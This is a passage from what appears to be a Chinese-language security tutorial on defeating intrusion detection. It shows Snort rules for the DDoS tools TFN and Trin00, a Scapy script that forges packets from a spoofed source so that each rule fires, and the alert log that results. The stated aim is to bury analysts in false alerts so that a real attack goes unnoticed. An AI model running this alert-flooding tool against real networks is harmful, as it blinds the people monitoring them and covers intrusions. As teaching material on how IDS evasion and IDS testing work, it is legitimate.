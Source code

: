 ```
victim# cat /etc/snort/rules/ddos.rules
<..SNIPPED..>
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS TFN Probe";
icmp_id:678; itype:8; content:"1234"; reference:arachnids,443;
classtype:attempted-recon; sid:221; rev:4;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS tfn2k icmp
possible communication"; icmp_id:0; itype:0; content:"AAAAAAAAAA";
reference:arachnids,425; classtype:attempted-dos; sid:222; rev:2;)
alert udp $EXTERNAL_NET any -> $HOME_NET 31335 (msg:"DDOS Trin00
Daemon to Master PONG message detected"; content:"PONG";
reference:arachnids,187; classtype:attempted-recon; sid:223; rev:3;)
alert icmp $EXTERNAL_NET any -> $HOME_NET any (msg:"DDOS
TFN client command BE"; icmp_id:456; icmp_seq:0; itype:0;
reference:arachnids,184; classtype:attempted-dos; sid:228; rev:3;)
<...SNIPPED...> 
```

为了对分析师隐藏一个合法的攻击，我们将编写一个工具生成大量的警告让分析师去处理。此外，分析师能够使用这个工具来验证一个 IDS 能正确的识别恶意流量。编写这个脚本并不难，我们已经有了生成警告的规则。为此，我们将再次使用`Scapy`制作数据包。考虑到 DDos TFN 的第一条规则，我们必须生成一个 ICMP 数据包，ICMP ID 是 678，ICMP 类型是 8 包含原始内容`'1234'`的数据包。使用`Scapy`，我们用这些变量制作数据包并发送他们到我们的目的地址。此外，我们建立其他三个规则的数据包。

```
from scapy.all import *
def ddosTest(src, dst, iface, count):
    pkt=IP(src=src,dst=dst)/ICMP(type=8,id=678)/Raw(load='1234')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0)/Raw(load='AAAAAAAAAA')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/UDP(dport=31335)/Raw(load='PONG')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0,id=456)
    send(pkt, iface=iface, count=count)

src="1.3.3.7"
dst="192.168.1.106"
iface="eth0"
count=1
ddosTest(src,dst,iface,count) 
```

运行该脚本，我们看到，四个数据包发送到了目的地址。IDS 将会分析这些数据包并生成警告，如果他们匹配正确的话。

```
attacker# python idsFoil.py
Sent 1 packets.
.Sent 1 packets.
Sent 1 packets.
Sent 1 packets. 
```

检查 Snort 的警告日志，我们发现我们成功了！所有四个数据包生成的警告全部 IDS 系统中。

```
victim# snort -q -A console -i eth0 -c /etc/snort/snort.conf
03/14-07:32:52.034213 [**] [1:221:4] DDOS TFN Probe [**]
[Classification: Attempted Information Leak] [Priority: 2] {ICMP}
1.3.3.7 -> 192.168.1.106
03/14-07:32:52.037921 [**] [1:222:2] DDOS tfn2k icmp possible
communication [**] [Classification: Attempted Denial of Service]
[Priority: 2] {ICMP} 1.3.3.7 -> 192.168.1.106
03/14-07:32:52.042364 [**] [1:223:3] DDOS Trin00 Daemon to Master PONG
message detected [**] [Classification: Attempted Information Leak]
[Priority: 2] {UDP} 1.3.3.7:53 -> 192.168.1.106:31335
03/14-07:32:52.044445 [**] [1:228:3] DDOS TFN client command BE [**]
[Classification: Attempted 
```
